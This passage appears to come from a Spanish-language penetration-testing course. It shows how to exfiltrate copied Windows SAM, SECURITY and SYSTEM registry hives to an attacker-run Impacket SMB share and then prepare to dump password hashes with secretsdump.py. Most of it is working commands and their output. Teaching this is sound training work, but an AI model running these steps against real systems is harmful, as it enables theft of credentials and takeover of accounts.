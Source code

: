 ```r
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Una vez que tengamos el recurso compartido funcionando en nuestro host de ataque, podemos usar el comando `move` en el objetivo de Windows para mover las copias de las colmenas al recurso compartido.

### Moving Hive Copies to Share

```r
C:\> move sam.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move security.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move system.save \\10.10.15.16\CompData
        1 file(s) moved.
```

Luego podemos confirmar que nuestras copias de las colmenas se trasladaron con éxito al recurso compartido navegando al directorio compartido en nuestro host de ataque y usando `ls` para listar los archivos.

### Confirming Hive Copies Transferred to Attack Host

```r
ls

sam.save  security.save  system.save
```

---

## Dumping Hashes with Impacket's secretsdump.py

Una herramienta increíblemente útil que podemos usar para descargar los hashes offline es Impacket's `secretsdump.py`. Impacket se encuentra en la mayoría de las distribuciones modernas de pruebas de penetración. Podemos verificarlo usando `locate` en un sistema basado en Linux:

### Locating secretsdump.py

```r
locate secretsdump 
```
